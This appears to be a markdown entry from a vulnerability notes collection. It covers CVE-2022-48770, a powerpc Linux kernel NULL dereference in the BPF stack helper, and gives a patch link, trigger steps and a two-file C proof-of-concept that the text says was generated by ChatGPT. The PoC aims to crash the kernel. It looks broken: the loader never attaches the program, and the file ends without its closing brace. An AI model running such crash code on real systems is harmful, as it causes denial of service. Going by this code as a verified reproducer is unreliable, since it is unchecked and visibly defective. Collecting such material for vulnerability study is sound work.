 ```c

```


#### CVE-2022-48770
task_pt_regs() can return NULL on powerpc for kernel threads. This is then used in __bpf_get_stack() to check for user mode, resulting in a kernel oops.

- [Patch](https://lore.kernel.org/all/d5ef83c361cc255494afd15ff1b4fb02a36e1dcf.1641468127.git.naveen.n.rao@linux.vnet.ibm.com/)
- **Setup: powerpc architecture**
- Key steps to launch: trigger `task_pt_regs()` to return `NULL` (triggered in kernel/bpf/stackmap.c, BPF_CALL_4)
- *Workaround*: ?
- PoC (generated by chatGPT)
```c
// .bpf.c
#include <linux/bpf.h>
#include <bpf/bpf_helpers.h>
#include <linux/ptrace.h>

SEC("tracepoint/sched/sched_switch")
int trigger_stack_read(struct pt_regs *ctx) {
    char stack_buf[256];
    int flags = 0;
    
    // Attempt to capture stack trace
    // This should trigger NULL dereference if task_pt_regs() returns NULL
    int stack_size = bpf_get_stack(ctx, stack_buf, sizeof(stack_buf), flags);
    if (stack_size < 0) {
        bpf_printk("Stack trace capture failed, returned: %d\n", stack_size);
    }

    return 0;
}

char _license[] SEC("license") = "GPL";
```
```c
// main.c
#include <stdio.h>
#include <bpf/libbpf.h>
#include <unistd.h>
#include <sys/resource.h>

int main() {
    struct bpf_object *obj;

    // Load the eBPF program
    obj = bpf_object__open_file("stack_trigger.bpf.o", NULL);
    if (!obj) {
        fprintf(stderr, "Failed to open BPF object file\n");
        return 1;
    }
    if (bpf_object__load(obj)) {
        fprintf(stderr, "Failed to load BPF object file\n");
        return 1;
    }

    printf("eBPF program loaded. Waiting to trigger sched_switch...\n");
    sleep(10); // Keep running to allow the eBPF program to capture stack traces

    bpf_object__close(obj);
    return 0;
```